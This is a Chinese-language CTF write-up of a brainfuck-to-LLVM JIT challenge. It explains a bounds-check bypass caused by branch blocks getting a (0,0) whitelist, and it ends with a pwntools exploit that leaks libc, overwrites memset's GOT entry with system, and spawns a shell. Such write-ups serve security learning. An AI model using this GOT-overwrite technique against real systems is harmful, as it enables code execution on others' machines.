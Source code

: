 # 题目审计
题目文件给了一个main.py和runtime.so

 - main.py是主程序，读取brainfuck代码作为，然后使用llvm对代码执行jit编译并执行。
- runtime.so是一个提供读取输出分配内存函数的运行库

调试方法：
```
gdb python
gdb> run main.py
```
# main.py分析

## 解析器
实现于```class bfProgram:def __init__ (self, c):```
解析器检测中括号将程序分为多个部分，并将token转化为抽象指令。

指令的格式为```(op,value)```
- 0：无操作
- 1：移动指针
- 2：给指针所指字节赋值
- 3：打印指针所指字节
- 4：读取指针所指字节
例如：<<>>> (1,1) +--- (2,-2)

遇到中括号时，解析器会将程序分为三部分
```<head><br1><br2>```，若任意部分含有中括号则继续处理，即递归处理。

## 代码生成
实现于```class bfProgram:codegen(self, module, whitelist=None):```

首先会检测输入程序是否为linear code，分别进行不同的codegen流程。

### linear code
每个抽象指令的op都对应一系列llvm指令，对于操作码1 ，首先取出当前指针，然后对指针加value的值后，重新存储指针，指针存储于```dptr_ptr```
```
elif op == 1:
    if imm != 0:
        ori = builder.ptrtoint(builder.load(dptr_ptr), i64)
        incr = llvmIR.Constant(i64, imm)
        new = builder.inttoptr(builder.add(ori, incr), i8_ptr)
        builder.store(new, dptr_ptr)
        rel_pos += imm
```
对于op 2，3，4增加了检测代码
```
if not is_safe(rel_pos, whitelist_cpy):
    print(self.code)
    sptr = builder.load(sptr_ptr)
    cur = builder.ptrtoint(dptr, i64)
    start = builder.ptrtoint(sptr, i64)
    bound = builder.add(start, llvmIR.Constant(i64, 0x3000))
    builder.call(ptrBoundCheck, [start, bound, cur])
    whitelist_cpy = whitelist_add(whitelist_cpy, rel_pos)
```
首先```is_safe```检查```rel_pos```是否在whitelist_cpy内部，whitelist是一个2个值的元组，存储有效指针的范围，如果```rel_pos```不在whitelist范围内则调用ptrBoundCheck(实现于runtime.so)。
```
//合法范围为0x3000
void ptrBoundCheck(ulong start,ulong bound,ulong cur)
{
  if ((start <= cur) && (cur <= bound)) {
    return;
  }
  fprintf(stderr, "assert (0x%lx < 0x%lx < 0x%lx)!!\n", start, cur, bound);
  exit(-1);
}
```
whitelist的存在事实上是对程序的优化，否则每次对指针进行操作都需要添加ptrBoundCheck，而添加whitelist后只需要对首次越出whitelist范围的指针进行检测。

### Branch
当程序存在中括号的时候，程序将被拆分为多个部分，并且这些部分将被单独处理，整个过程是递归完成的。之后在每个块生成LLVM IR后使用条件分支将各个块链接到一起。
漏洞点在于：
```
headb = self.head.codegen(module)
br1b = self.br1.codegen(module, (0, 0))
br2b = self.br2.codegen(module, (0, 0))
```
第二行第三行，传递白名单的方式为0，0，而不是None，这将导致```is_safe(0, whitelist_cpy)```返回true，因此ptrBoundsCheck不会被加入该代码块。
也就是在将指针越界移动后，再进行分支，保持rel_pos的值为0就可以对越界指针所指的位置进行操作。

## Vulnerability
1.指针移动并没有进行检查
我们可以任意移动指针到任何位置
2.is_safe
```
def is_safe(v, wl):
	if wl == None:
		return False
	a1, a2 = wl
	return v >= a1 and v <= a2
```
is_safe(0, (0,0))将会返回true
3.rel_pos
rel_pos在每个块开始生成llvm ir的时候都会置0。
结合以上三个漏洞我们可以任意地址读写。

## 利用
data起始含有两个指针，分别为data段起始指针和当前指针

1.更改start pointer为GOT处
2.更改data pointer为GOT处
3.泄露libc地址
4.覆盖memset为system
5.写/bin/sh
exp
```
def exploit(r):
	# leak libc
	r.sendlineafter(">>> ", "[.]<<<<<<<<[.,<<<<<<<<]>>>>>>>>>[.>]")
	r.sendafter(chr(0x90), chr(0x30-1))
	r.sendafter(chr(0x80), chr(0x30-1))
	libc_base = u64(r.recvn(6).ljust(8, '\x00'))-libc.symbols["read"]
	log.info("libc_base: {:#x}".format(libc_base))

	# prepare /bin/sh
	r.sendlineafter(">>> ", "+.,>,>,>,>,>,>,>,<<<<<<<"+"[<<<<<<<<[.,<<<<<<<<]>>>>>>>>>.[,>]]")
	r.sendafter(chr(1), "/bin/sh\x00")
	r.sendafter(chr(0x90), chr(0x28-1))
	r.sendafter(chr(0x80), chr(0x28-1))
	r.recvn(1)
	r.send(p64(libc_base+libc.symbols["system"])[:-2])
	r.interactive()
```